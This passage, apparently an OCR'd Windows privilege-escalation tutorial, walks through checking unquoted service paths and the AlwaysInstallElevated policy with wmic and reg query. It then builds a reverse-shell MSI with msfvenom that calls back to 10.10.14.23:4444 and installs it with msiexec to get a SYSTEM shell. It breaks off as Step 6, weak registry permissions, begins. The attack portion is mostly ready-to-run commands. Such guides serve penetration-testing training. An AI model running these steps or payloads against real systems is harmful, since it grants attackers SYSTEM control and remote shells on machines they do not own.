
## 📦 Step 4: Unquoted Service Paths

Check for **unquoted service paths**:

```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
```

Example vulnerable path:

```
C:\Program Files\My App\bin\service.exe
```

If the service runs as SYSTEM and the path has no quotes, you can drop a malicious binary in:

```
C:\Program.exe
```

When the service starts, Windows executes your binary first, giving you SYSTEM.

---

## 🪟 Step 5: AlwaysInstallElevated Trick

Windows has an MSI installer policy called **AlwaysInstallElevated**. If enabled, any user can run MSI installers with SYSTEM privileges.

Check the registry:

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If both return `0x1`, you can exploit it:

1. Create a SYSTEM backdoor MSI with `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 -f msi > exploit.msi
```

2. Execute as a low user:

```cmd
msiexec /quiet /qn /i exploit.msi
```

💥 Boom! SYSTEM shell.

---

## 🔑 Step 6: Weak Registry Permissions

Some services store configs in the registry. If registry keys are writable, you can hijack the executable path.
